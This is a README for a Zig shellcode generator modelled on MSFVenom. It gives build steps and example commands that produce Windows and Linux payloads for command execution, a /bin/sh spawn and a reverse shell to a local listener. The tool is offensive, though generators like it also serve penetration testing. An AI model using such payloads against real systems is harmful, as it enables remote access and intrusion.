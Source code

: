 # Shcgen

A shellcode generator written in Zig. This is inspired by MSFVenom.

<br />

## Install

Download from [releases](/releases) page.

### Build from Source

```sh
git clone https://github.com/hideckies/shcgen
cd shcgen
zig build --release=small
./zig-out/bin/shcgen --help
```

## How To Use

### Generate Windows Payloads

```sh
# Example 1. Execute arbitrary command
shcgen -p windows/x64/exec --cmd calc -f raw -o /tmp/shellcode.bin

# Example 2. Reverse Shell
shcgen -p windows/x64/shell_reverse_tcp --lhost 127.0.0.1 --lport 4444 -f raw -o /tmp/shellcode.bin
```

### Generate Linux Payloads

```sh
# Example 1. Execute arbitrary command
shcgen -p linux/x64/exec --cmd /bin/sh -f hex
```

See [examples](/examples/) for more details.

<br />

